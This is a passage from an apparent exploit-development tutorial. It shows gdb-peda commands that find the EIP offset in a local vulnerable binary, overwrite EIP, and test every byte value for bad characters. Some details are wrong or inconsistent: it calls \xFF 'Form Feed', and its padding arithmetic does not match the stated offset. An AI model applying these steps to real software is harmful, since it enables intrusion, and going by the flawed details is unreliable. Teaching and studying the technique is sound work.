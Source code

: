 ![buffer overflow 5](/assets/images/15/2021-10-20_00-45.png){:class="img-responsive"}          

Based on the `eip` value (`0x41332541`), it's also possible to identify the correct offset to the `eip`:

```bash
gdb-peda$ pattern offset 0x41332541
```

![buffer overflow 6](/assets/images/15/2021-10-20_00-49.png){:class="img-responsive"}          

Let's use this value for create new input (which will serve as the base for our future payload) and run vulnerable binary with it:
```bash
gdb -q ./vuln
gdb-peda$ r $(python3 -c 'print("A" * 268 + "B" * 4)')
```
![buffer overflow 7](/assets/images/15/2021-10-20_00-55.png){:class="img-responsive"}          

Perfect! The `EIP` was overwritten with `BBBB` (`0x42424242`), so we've gained control over `EIP`.           

### identification bad chars       

In order to run, the shellcode can't contain characters that will be interpreted incorrectly by the program you are exploiting, such as newline, for example. These chars also known as ***bad characters***, like this:
- `\x00` - Null Byte          
- `\x0A` - Line Feed             
- `\x0D` - Carriage Return               
- `\xFF` - Form Feed            

The easiest way to determine which of the characters are bad for our shellcode is to run them in it. We need list of all characters:
`\x00\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff`

Then, set breakpoint in function `overflow`:
```bash
gdb-peda$ b overflow
```

![bad chars 1](/assets/images/15/2021-10-21_17-40.png){:class="img-responsive"}          

We can execute the characters and look at the memory:
```bash
gdb-peda$ r $(python -c 'print "\x41" * (272 - 256 - 4) + "\x00\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff" * 25 + "\x42" * 4')
```